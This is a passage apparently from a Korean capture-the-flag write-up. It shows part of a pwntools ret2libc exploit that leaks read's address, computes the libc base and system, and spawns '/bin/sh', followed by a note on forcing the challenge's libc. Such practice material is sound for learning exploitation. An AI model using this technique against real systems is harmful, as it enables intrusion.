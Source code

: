 ```python
payload += p64(ret) # 스택 정렬하기 위함
payload += p64(read_plt)

p.sendafter(b'Buf: ', payload)
read = u64(p.recvn(6) + b'\x00'*2)
lb = read - libc.symbols['read']
system = lb + libc.symbols['system']
slog('read', read)
slog('libc_base', lb)
slog('system', system)

p.send(p64(system) + b'/bin/sh\x00')

p.interactive()
```

💡 8번 Line이 추가된 이유

---

Ubuntu를 최근에 설치한 경우, 문제에서 제공하는 libc 파일이 Ubuntu 환경에서 사용하는 libc 파일과 미세하게 달라질 수 있습니다. 그런 경우에는 7번 Line을 주석처리하고, 8번 Line을 주석을 해제하여 사용하는 libc 파일을 강제로 문제에서 제공하는 것으로 지정할 수 있습니다.

---